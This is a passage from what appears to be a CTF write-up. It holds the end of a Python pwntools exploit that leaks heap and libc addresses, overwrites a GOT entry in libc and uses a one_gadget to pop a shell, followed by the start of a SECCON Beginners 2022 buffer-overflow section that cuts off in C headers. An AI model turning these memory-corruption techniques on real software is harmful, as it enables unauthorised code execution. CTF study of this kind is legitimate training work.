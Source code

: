 ```python
info("HEAP BASE: " + hex(heap_base))


######################
## LEAK LIBC ADDRESS
######################

payload = b"C" * (8 * 6)
payload += p64(heap_base + 0x380)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
send(0x80, payload)

payload = b"D" * 0x316D8 + p64(heap_base + 0x340 - 0x80)
send(0x30001, payload)

send(0x10, b"")
io.recvuntil(b":[")
libc.base = u64(io.recvline().strip(b"]")) - 0x21A2E0

######################
## OVERWRITE GOT IN LIBC
######################

# 全ては調べてないが、少なくとも以下の２つのGOTは書き換えるとシェルを取れる。
got_addr = libc.base + 0x219098
# got_addr = libc.base + 0x219090
info(f"GOT ADDRESS BEING OVERWRITTEN: {hex(got_addr)}")

payload = b"F" * 0x626D8 + p64(heap_base + 0x350 - 0x80)
send(0x30001, payload, 0)

payload = b"E" * (8 * 6)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
if got_addr % 0x10 == 0:
    payload += p64(got_addr)
else:
    payload += p64(got_addr - 8)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
payload += p64(heap_base + 0x300)
send(0x10, payload)

one_gadget = 0xEBCF5
io.send(p64(0x10))
io.send(p64(libc.base + one_gadget))

io.recvuntil(b"[PKT_RES]")
io.sendline(p64(0x10))
io.sh()
```
# 5/7 SECCON for Beginners 2022 BeginnersBof
I got a program and its source code. `chall` and `src.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
```